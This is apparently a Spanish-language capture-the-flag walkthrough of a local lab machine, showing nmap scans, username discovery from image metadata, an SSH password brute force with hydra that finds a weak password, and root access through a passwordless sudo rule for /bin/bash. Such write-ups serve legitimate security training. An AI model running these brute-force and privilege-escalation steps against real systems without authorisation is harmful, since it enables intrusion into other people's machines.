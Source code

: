 #abusing-sudo #apport-cli #cms #password-brute-force #hashcat #joomla #mysql #wfuzz #subdomain-brute-force

![](../../../Images/Pasted%20image%2020241008070451.png)
# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio SSH i un servicio HTTP funcionando.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Nmap scan report for 172.17.0.2
Host is up (0.000013s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 07:06 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000054s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.07 seconds
```

## Website (80 TCP Port)

En el sitio web nos encontramos con solo una imagen.

![](../../../Images/Pasted%20image%2020241008070656.png)

Descargamos la imagen en nuestro sistema de ataque y nos ponemos a investigarla.
# Foothold

Hacemos un stego con `steghide` y obtenemos algo de información no importante.

```
> steghide extract -sf imagen.jpeg
Enter passphrase:

wrote extracted data to "secreto.txt".

> cat secreto.txt

Sigue buscando, aquí no está to solución
aunque te dejo una pista....
sigue buscando en la imagen!!!
```

Luego examinamos los metadatos de la imagen y conseguimos dar con un nombre de usuario.

```
> exiftool imagen.jpeg

ExifTool Version Number         : 12.76
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:10:07 21:32:57+02:00
File Access Date/Time           : 2024:10:07 21:33:43+02:00
File Inode Change Date/Time     : 2024:10:07 21:32:57+02:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```

Ahora, con el nombre de usuario podemos hacer fuerza bruta contra el servicio SSH con `hydra`.

```
> hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-08 06:48:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-08 06:48:12
```

Conseguimos acceder al sistema mediante SSH.

# Escalada de privilegios

Una vez dentro investigamos los comandos que podemos ejecutar con permisos `sudo`.

```
borazuwarah@7dd5484e294a:~$ sudo -l
Matching Defaults entries for borazuwarah on 7dd5484e294a:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on 7dd5484e294a:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```

Nos encontramos que podemos ejecutar el binario`/bin/bash` con permisos ``sudo`` y sin contraseña.

```
borazuwarah@7dd5484e294a:~$ sudo /bin/bash
root@7dd5484e294a:/home/borazuwarah#
```